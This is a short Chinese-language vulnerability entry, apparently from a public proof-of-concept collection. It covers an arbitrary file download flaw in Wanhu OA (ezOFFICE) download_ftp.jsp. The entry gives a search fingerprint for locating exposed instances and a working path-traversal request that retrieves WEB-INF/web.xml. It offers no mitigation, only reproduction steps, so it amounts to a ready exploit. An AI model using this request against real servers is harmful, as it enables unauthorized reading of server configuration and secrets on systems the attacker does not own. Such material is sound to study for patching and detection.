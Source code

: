 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66.png)

验证POC

```javascript
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![img](../../../.vuepress/public/img/1646135727614-308c38fd-932b-4dc1-a43d-aa5ddfe6898a.png)